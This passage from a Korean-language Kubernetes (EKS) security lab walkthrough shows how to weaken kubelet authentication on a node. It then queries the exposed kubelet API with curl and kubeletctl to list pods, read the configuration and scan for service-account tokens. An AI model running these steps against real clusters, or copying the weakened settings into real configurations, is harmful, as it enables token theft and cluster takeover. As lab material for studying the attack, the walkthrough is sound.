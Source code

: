 ```bash
# 노드1 접속
ssh ec2-user@$N1

# 미흡한 인증/인가 설정으로 변경: 위의 json 수정내용 참조
vi /etc/kubernetes/kubelet/kubelet-config.json

# kubelet restart
systemctl restart kubelet
systemctl status kubelet
```

![edit kubelet-config with vulnerability](images/edit-kubelet-config-with-vulnerability.png)

- [myeks-bastion-2] kubelet 사용

```bash
# 파드 목록 확인
curl -s -k https://$N1:10250/pods | jq

# kubelet-config.json 설정 내용 확인
curl -k https://$N1:10250/configz | jq

# kubeletct 사용
# Return kubelet's configuration
kubeletctl -s $N1 configz | jq

# Get list of pods on the node
kubeletctl -s $N1 pods 

# Scans for nodes with opened kubelet API > Scans for for all the tokens in a given Node
kubeletctl -s $N1 scan token

# kubelet API로 명령 실행 : <네임스페이스> / <파드명> / <컨테이너명>
```